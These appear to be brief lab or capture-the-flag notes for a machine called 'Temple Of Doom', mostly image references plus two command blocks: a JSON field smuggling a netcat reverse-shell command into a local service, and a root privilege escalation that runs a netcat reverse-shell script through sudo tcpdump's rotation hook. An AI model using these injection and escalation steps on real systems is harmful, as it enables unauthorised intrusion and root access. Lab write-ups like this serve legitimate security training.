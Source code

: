 # Temple Of Doom
07 April 2022
08:37 AM

<img src="Temple-Of-Doom/media/image1.png" style="width:6.04167in;height:2.09167in" />

<img src="Temple-Of-Doom/media/image2.png" style="width:5.53333in;height:3.025in" />

<img src="Temple-Of-Doom/media/image3.png" style="width:6.00833in;height:2.475in" />

<img src="Temple-Of-Doom/media/image4.png" style="width:4.8in;height:1.5in" />

<img src="Temple-Of-Doom/media/image5.png" style="width:5.93333in;height:1.625in" />

<img src="Temple-Of-Doom/media/image6.png" style="width:5.83333in;height:0.6in" />

nc -u 127.0.0.1 8839
add: {“server\_port":8003, "password":"test", "method":"||nc -e /bin/sh 192.168.1.106 4444 ||"}

<img src="Temple-Of-Doom/media/image7.png" style="width:5.75in;height:0.58333in" />

<img src="Temple-Of-Doom/media/image8.png" style="width:5.65833in;height:1.325in" />

<img src="Temple-Of-Doom/media/image9.png" style="width:5.61667in;height:2.375in" />

cd /tmp
echo "nc -e /bin/bash 192.168.1.106 8888" &gt; shell
chmod 777 shell
sudo tcpdump -ln -I eth0 -w /dev/null -W 1 -G 1 -z /tmp/shell -Z root
or
sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/shell -Z root

<img src="Temple-Of-Doom/media/image10.png" style="width:5.58333in;height:1.2in" />

<img src="Temple-Of-Doom/media/image11.png" style="width:5.59167in;height:3.91667in" />
